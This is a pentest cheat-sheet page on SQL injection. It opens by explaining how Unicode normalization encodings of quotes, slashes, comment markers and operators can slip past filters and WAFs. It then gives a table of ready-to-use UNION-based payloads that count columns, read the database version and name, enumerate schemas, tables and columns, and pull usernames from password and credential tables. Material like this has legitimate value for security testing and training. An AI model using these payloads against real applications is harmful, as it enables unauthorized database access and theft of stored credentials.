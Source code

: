 ***

## SQL Injection Filter Evasion - Unicode Normalization

Unicode normalization is a process that ensures different binary representations of characters are standardized to the same binary value. This process is crucial in dealing with strings in programming and data processing

You can find a great article here:\
[https://appcheck-ng.com/unicode-normalization-vulnerabilities-the-special-k-polyglot/](https://appcheck-ng.com/unicode-normalization-vulnerabilities-the-special-k-polyglot/)

Depending on how the back-end/front-end is behaving when it **receives weird unicode characters** an attacker might be able to **bypass protections and inject arbitrary characters.**

You can use the following payloads to try and trigger a SQLi whenever you are facing any filters. Sometimes, unicode normalization even allows bypassing WAFs in place.

Other characters can be found at:

* [https://appcheck-ng.com/wp-content/uploads/unicode\_normalization.html](https://appcheck-ng.com/wp-content/uploads/unicode\_normalization.html)
* [https://0xacb.com/normalization\_table](https://0xacb.com/normalization\_table)

| Character | Unicode Normalization |
| --------- | --------------------- |
| o         | %e1%b4%bc             |
| r         | %e1%b4%bf             |
| 1         | %c2%b9                |
| =         | %e2%81%bc             |
| /         | %ef%bc%8f             |
| -         | %ef%b9%a3             |
| #         | %ef%b9%9f             |
| \*        | %ef%b9%a1             |
| '         | %ef%bc%87             |
| "         | %ef%bc%82             |
| \|        | %ef%bd%9c             |

***

## **UNION-Based SQL Injection Payloads**

| Payload                                                                                                                                         | Description                                          |
| ----------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------- |
| ' order by 1-- -                                                                                                                                | Detect number of columns using order by              |
| cn' UNION select 1,2,3-- -                                                                                                                      | Detect number of columns using Union injection       |
| cn' UNION select 1,@@version,3,4-- -                                                                                                            | Basic Union injection                                |
| UNION select username, 2, 3, 4 from passwords-- -                                                                                               | Union injection for 4 columns                        |
| cn' UNION select 1,database(),2,3-- -                                                                                                           | Current database name                                |
| cn' UNION select 1,schema\_name,3,4 from INFORMATION\_SCHEMA.SCHEMATA-- -                                                                       | List all databases                                   |
| cn' UNION select 1,TABLE\_NAME,TABLE\_SCHEMA,4 from INFORMATION\_SCHEMA.TABLES where table\_schema='dev'-- -                                    | List all tables in a specific database               |
| cn' UNION select 1,COLUMN\_NAME,TABLE\_NAME,TABLE\_SCHEMA from INFORMATION\_SCHEMA.COLUMNS where table\_name='credentials'-- -                  | List all columns in a specific table                 |